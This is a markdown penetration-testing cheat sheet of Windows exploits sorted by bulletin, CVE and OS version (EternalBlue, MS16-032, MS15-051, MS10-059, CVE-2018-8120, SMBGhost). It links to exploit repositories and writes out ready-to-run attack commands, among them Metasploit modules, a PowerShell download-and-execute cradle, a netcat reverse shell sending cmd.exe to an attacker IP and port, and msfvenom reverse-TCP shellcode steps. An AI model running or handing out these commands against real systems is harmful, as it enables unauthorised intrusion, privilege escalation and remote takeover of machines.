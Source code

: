 # windows exploits

## MS08-067 Exploit

* [https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py](https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py)
* [https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067_w2k3_sp2.py](https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067_w2k3_sp2.py)

## MS-17-010 EternalBlue Exploit

* msf:
    * checker: `use auxiliary/scanner/smb/smb_ms17_010`
    * exploit: `use exploit/windows/sbm/ms17_010_eternalblue`
* [eternalblue_manual_exploit](https://root4loot.com/post/eternalblue_manual_exploit/)
    * no pipes needed | manual method
* [helviojunior/MS17-010.git](https://github.com/helviojunior/MS17-010.git)
    * update username as guest / anonymous (if needed)
    * `python send_and_execute.py TARGET_IP SHELL.exe`
* [3ndG4me/AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)
    * ensure to run pre requisites
    * `python zzz_exploit.py TARGET_IP`
* [exploit-db/42315](https://www.exploit-db.com/exploits/42315)

## MS-16-032 Exploit

* [EmpireProject/Invoke-MS16032.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1)
    * `Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('shell.ps1')"`

## Windows 7

* MS11-046 | CVE-2011-1249 | win7 6.1.7600 N/A Build 7600 x86
    * [abatchy17/MS11-046](https://github.com/abatchy17/WindowsExploits/tree/master/MS11-046)
* MS10-059 | CVE-2010-2554 | win7 6.1.7600 N/A Build 7600 x86
    * [egre55/MS10-059:%20Chimichurri/Compiled](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri/Compiled)
    * `MS10-059.exe KALI_IP PORT`

## MS09-050 'srv2.sys' SMB Code Execution (Python)

* [exploit-db/40280](https://www.exploit-db.com/exploits/40280)

## MS09-002 Memory Corruption IE7 Exploit

* msf: `use windows/browser/ms09_002_memory_corruption`

## Windows Server 2008 R2 SP1

* CVE-2018-8120
* Description: vuln when Win32k component fails to properly handle objects in memory; can run arbitrary code in kernel
  mode
* [SecWiki/CVE-2018-8120](https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2018-8120)

## Windows 7 SP1

* CVE-2018-8120
    * Description: vuln when Win32k component fails to properly handle objects in memory; can run arbitrary code in
      kernel mode
    * [SecWiki/CVE-2018-8120](https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2018-8120)

## Windows Server 2008 SP1

* CVE-2018-8120
    * Description: vuln when Win32k component fails to properly handle objects in memory; can run arbitrary code in
      kernel mode
    * [SecWiki/CVE-2018-8120](https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2018-8120)
* MS10-059 | CVE-2010-2554 | win7 6.1.7600 N/A Build 7600 x86
    * [egre55/MS10-059:%20Chimichurri/Compiled](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri/Compiled)
    * `MS10-059.exe KALI_IP PORT`

## Windows Server 2003

* MS10-059 | CVE-2010-2554 | win7 6.1.7600 N/A Build 7600 x86
    * [egre55/MS10-059:%20Chimichurri/Compiled](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri/Compiled)
    * `MS10-059.exe KALI_IP PORT`

## Windows Server 2012 R2 Standard

* MS16-098 | CVE-2016-3309 | Server 2012 R2 Standard 6.3.9600 N/A Build 9600
    * [SecWiki/MS16-098](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-098)

## Windows Server 2008 R2

* MS15-05
    * [SecWiki/MS15-051/MS15-051-KB3045171.zip](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip)
    * `ms15-051.exe "nc64.exe -c cmd.exe IP PORT"`
* MS10-059 | CVE-2010-2554 | win7 6.1.7600 N/A Build 7600 x86
    * [egre55/MS10-059:%20Chimichurri/Compiled](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri/Compiled)
    * `MS10-059.exe KALI_IP PORT`

## Windows XP SP1

* Local PE using Windows Services (upnphost and SSDPSRV)
    * [https://sohvaxus.github.io/content/winxp-sp1-privesc.html](https://sohvaxus.github.io/content/winxp-sp1-privesc.html)

## CVE-2020-0796 | smbhghost

**REQUIREMENTS:**

* needs smb port:445 open

### Steps:

1. [danigargu/CVE-2020-0796](https://github.com/danigargu/CVE-2020-0796)
2. Generate shellcode using `msfvenom -p windows/x64/shell_reverse_tcp LHOST= LPORT= -f dll -f csharp`
3. Update shellcode on line 204 file: `exploit.cpp`
4. Set TARGET_ARCH and set for RELEASE
5. Build solution
6. Run `cve-2020-0796-local.exe`

